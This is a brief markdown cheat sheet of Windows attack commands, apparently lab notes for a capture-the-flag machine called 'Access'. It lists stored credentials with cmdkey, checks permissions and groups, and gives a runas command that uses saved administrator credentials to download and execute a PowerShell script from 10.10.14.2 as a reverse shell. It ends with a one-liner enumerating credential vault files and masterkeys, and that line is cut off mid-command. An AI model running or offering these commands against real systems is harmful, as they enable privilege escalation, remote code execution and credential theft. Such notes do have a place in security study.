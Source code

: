 # Misc

***

**displays stored user names and passwords or credentials.**

```bash
cmdkey /list
```

**verify permission**

```bash
icacls C:\Users\Public\Desktop
```

**verify groups**

```bash
whoami /groups
```

**The following command is used to start a PowerShell reverse shell as ACCESS\Administrator.**

```bash
runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/admin.ps1')"
```

**The following "one-liner" will identify the available credential files and masterkeys**

```bash
cmd /c "dir /S /AS C:\Users\security\AppData\Local\Microsoft\Vault & dir /S /AS
```

